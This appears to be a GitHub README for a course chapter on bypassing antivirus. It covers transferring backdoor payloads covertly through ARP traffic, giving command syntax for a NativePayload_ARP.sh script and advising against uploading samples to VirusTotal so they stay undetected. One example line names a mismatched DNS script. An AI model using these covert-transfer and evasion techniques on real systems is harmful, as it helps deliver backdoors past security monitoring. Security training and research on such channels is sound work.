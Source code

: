 # Course : Bypassing Anti Viruses by C#.NET Programming

Part 2 (Infil/Exfiltration/Transferring Techniques by C#)  , Chapter 8 : Transferring Backdoor Payloads by ARP Traffic

eBook : Bypassing Anti Viruses by C#.NET Programming

eBook chapter 8 , PDF Download : https://github.com/DamonMohammadbagher/eBook-BypassingAVsByCSharp/tree/master/CH8

Related Video : 

Video 1 for chapter 8: 

Video 2 for chapter 8:



Warning :Don't Use "www.virustotal.com" or something like that , Never Ever ;D

Recommended:

STEP 1 : Use each AV one by one in your LAB .

STEP 2 : after "AV Signature Database Updated" your Internet Connection should be "Disconnect" .

STEP 3 : Now you can Copy and Paste your C# code to your Virtual Machine for test .

Syntax :

Example Step1: (Client Side ) ./NativePayload_ARP.sh -s text-file eth0 delay x"

Example Step2: (Server Side ) ./NativePayload_ARP.sh -a vboxnet target-IPv4 "

example IPv4:192.168.56.101 : ./NativePayload_ARP.sh -s mytext.txt eth0 delay 3"

example IPv4:192.168.56.1 : ./NativePayload_DNS2.sh -a vboxnet 192.168.56.101 "

Description: with Step1 you will inject Data to MAC address for eth0 , with Step2 you can have this text file via Scanning target-system by ARP traffic (Using Arping tool)"



![](https://github.com/DamonMohammadbagher/NativePayload_ARP/blob/master/Chapter%208%20-%20Transferring%20Backdoor%20Payloads%20by%20ARP%20Traffic/x1.png)


![](https://github.com/DamonMohammadbagher/NativePayload_ARP/blob/master/Chapter%208%20-%20Transferring%20Backdoor%20Payloads%20by%20ARP%20Traffic/x2.png)
